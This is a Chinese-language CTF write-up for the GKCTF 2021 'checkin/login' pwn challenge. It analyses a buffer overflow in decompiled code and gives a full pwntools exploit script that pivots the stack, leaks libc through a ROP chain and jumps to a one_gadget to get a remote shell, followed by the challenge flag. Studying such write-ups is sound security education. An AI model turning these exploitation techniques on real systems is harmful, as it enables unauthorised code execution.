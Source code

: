# GKCTF 2021 checkin/login

> GKCTF 2021 https://buuoj.cn/plugins/ctfd-matches/matches/9/    **GKCTF X DASCTF应急挑战杯**
>
> challenge name: checkin
>
> file: login, libc.so.6
>
> .i64 with comments provided
>
> writeup writer: hexhex16@outlook.com    https://github.com/hex-16    thank liwl

1. 利用溢出的8B，修改rbp的值。而后经两次`leave`，rsp修改为指向name后地址，而后的ret读取name所属空间上的内容，导致rip可被修改至调用`main_logic`。
2. rsp修改为栈区地址后，使得`buf+0x20=name`，修改name缓冲区可控区域即可覆盖返回地址，修改至`pop edi; ret`，使得`edi = puts@got`再调用`puts`即可输出`puts`的真实地址，从而泄露libc基址(Anti ASLR)
3. 让step-2的puts为调用`main_logic`前的一个`puts`，那么泄露完`puts`真实地址后还能再执行一次`main_logic`，这时在name缓冲区上对应于返回地址的地方填入`one_gadget`，完成getshell



做题时绕的弯路：

- md5 hash算法不熟，纠结了半天md5加密部分的逻辑以及比对逻辑
- 一开始第一步返回的地址填的是`main_logic`的起始地址，即`payload = b"admin\0".ljust(0x8, b'\0') + p64(0x4018BF)`这一句用的地址是`0x4018C7`，导致buf+0x18 = name，仅有0x10 B空间构造ROP。即name: admin\0\0\0 + 浪费8B + RA + 8B可利用
- 远程pwn时，`one_gadget`选取错误，本地没有可用的ld.so。TBD: 学会从ubuntu docker中拉取对应版本的ld.so



# IDA Logic Analysis

- .text:00000000004018C7 处的函数(称为`main_logic`)，包含的是程序的主要逻辑
- 需注意的是buf长度为 0x20，输入限制为0x28，可覆盖8B。除开头的`admin\0`外为可控区域（后续会分析）
- name长度为0x20，除一开始的admin外，剩余缓冲区为可控区域，后续会利用。

```c
// 主要逻辑在这个函数里
int main_logic()  // .text:00000000004018C7
{
  char buf[32]; // [rsp+0h] [rbp-20h] BYREF

  puts("Please Sign-in");
  putchar('>');
  read(0, s1, 0x20uLL);
  puts("Please input u Pass");
  putchar('>');
  read(0, buf, 0x28uLL);                        // 栈溢出 溢出长度为8B
  if ( strncmp(s1, "admin", 5uLL) || (unsigned int)sub_401974(buf) )//输入是否合法的判断
  {
    puts("Oh no");
    exit(0);
  }
  puts("Sign-in Success");
  return puts("BaileGeBai"); // 这里的ret只能控制rbp, 两次leave后控制rsp 修改name后空余空间 为本函数前的地址
}
```

- 在输入是否合法的判断中，会判断用户名name / s1是否为admin，并判断buf(密码)的md5值是否与一个固定的字符串相等。
- 这个固定的字符串在IDA中显示的与实际用的不同，需要根据比对逻辑，恢复成对比的顺序，然后查他的原文

```assembly
21232F297A57A5A743894A0E4A801FC3
admin # https://www.cmd5.com/ 查询结果
```

也就是说，name(s1)和buf(passwd)都得是admin才能到`main_logic`的`ret`，但是缓冲区大于`admin`长度，则输入可以是`admin\0`+`SomeThingSlse`

# Step-1: hijack rsp, ret to main_logic



# Step-2: Leak libc Address





# Step-3: one_gadget









# Exploit

```python
from pwn import *  # GKCTF 2021 checkin/login  https://github.com/hex-16

# v40 = "A7A5577A292F2321"  # 21232F297A57A5A7
# v41 = "C31F804A0E4A8943"  # 43894A0E4A801FC3
# "21232F297A57A5A743894A0E4A801FC3"

# one_gadget = 0x45226 # 0x4527a 0xf03a4 0xf1247
context.log_level = "DEBUG"

context.binary = './login'
sh = process("./login")  # , env={'LD_PRELOAD': './libc.so.6'}
# process(['ld.so','pwn'],env=xxx)
sh = remote("node3.buuoj.cn", 27490)
libc = ELF("./libc.so.6")
elf = ELF("./login")
# gdb.attach(sh, "b *(0x401972)\nb *(0x40191C)\nc")

# ===== step-1 控制rbp 进而控制rsp rip, 跳转回主要逻辑所在的函数 call 0x4018C7 的地址 0x4018BF
# 用前面的地址0x4018BF是为了让buf name地址差0x20（调试可得）多一个call = 多一个push
payload = b"admin\0".ljust(0x8, b'\0') + p64(0x4018BF)  # name 输入限制0x20
sh.sendafter(">", payload)
payload = b"admin\0".ljust(0x20, b'\0') + p64(0x602400)  # pw 输入限制0x28 # 修改rbp的值 第二次leave修改rsp的值
sh.sendafter(">", payload)

# buf/rsp 0x6023e0  +0x20 = s1 name 602400 # name + 8为返回地址
# ===== step-2 构造ROP 泄露puts真实地址 得到libc基址 并返回到main_logic里再执行一次
# payload: p64(pop rdi, ret) p64(puts@got) p64(0x4018B5) # 0x4018B5
# 如果buf偏移量并非+0x20=name, 则buf写入后不做操作可能会把name覆盖掉 导致判断时Oh no
# 0x401ab3 : pop rdi ; ret
payload = b"admin\0".ljust(0x8, b'\0') + p64(0x401ab3) + p64(elf.got['puts']) + p64(0x4018B5)
sh.sendafter(">", payload)
payload = b"admin\0".ljust(0x8, b'\0')
sh.sendafter(">", payload)

data = sh.recvuntil("GeBai\n")
addr_puts = u64(sh.recvline(keepends=False).ljust(8, b'\0'))
print("addr_puts=", hex(addr_puts))
libc.address = addr_puts - libc.sym['puts']
print("libc.address =", hex(libc.address))

# ===== step-3 ret to one_gadget RA可控原因：name可控区域包含返回地址
payload = b"admin\0".ljust(0x18, b'\0') + p64(libc.address + 0xf1247)  # gdb调试 让地址放在RA处
# 具体用哪一个one_gadget不清楚 远程蒙的 0xf1247蒙对了 可用
sh.sendafter(">", payload)
payload = b"admin\0".ljust(0x8, b'\0')
sh.sendafter(">", payload)


sh.interactive()  # then cat flag.txt at server
# flag{9c2090bf-8a0b-4785-9577-c34f070903a4}
```

- `flag{9c2090bf-8a0b-4785-9577-c34f070903a4}`

